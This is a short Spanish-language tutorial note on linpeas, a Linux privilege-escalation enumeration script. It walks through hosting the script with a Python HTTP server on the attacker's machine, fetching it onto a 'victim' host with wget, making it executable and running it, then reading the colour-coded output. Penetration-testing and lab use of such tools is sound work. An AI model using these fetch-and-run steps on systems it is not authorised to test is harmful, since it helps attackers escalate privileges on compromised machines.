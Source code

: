 # linpeas - privesc script
# Otras versiones -> https://github.com/carlospolop/PEASS-ng/releases
linpeas es un script en bash que ejecuta una gran cantidad de comandos para detectar missconfigurations en un servidor Linux
y cuya finalidad es proporcionar caminos de escalada de privilegios. Es muy util en situaciones en las que ya contamos con
acceso a la maquina victima ya sea por ssh o por RCE.

Una vez descargado el script deberemos transferirlo a la maquina victima. Esto se puede hacer muy sencillo abriendo un servidor
con python en nuestra maquina local y descargandola desde la victima. Tambien se puede hacer con scp. Despues bastara con ejecutarlo
en la maquina victima


Maquina local(host):

    cd /ruta/local/linpeas/linpeas.sh
    
    python3 -m http.server 9001


Maquina remota(victim)>

    wget http://[IP_MAQUINA_LOCAL]:9001/linpeas.sh
    
    chmod +x linpeas.sh
    
    ./linpeas.sh
 
 
Una vez analicemos su output, deberemos fijarnos principalmente en el contenido que tenga el fondo naranja, aunque llamara la atencion
segun vaya generando el output. En caso de no reportar nada en naranja, deberemos mirar el color rojo, ya que puede existir un
metodo de ecalada de privilegios en alguno de estos casos.
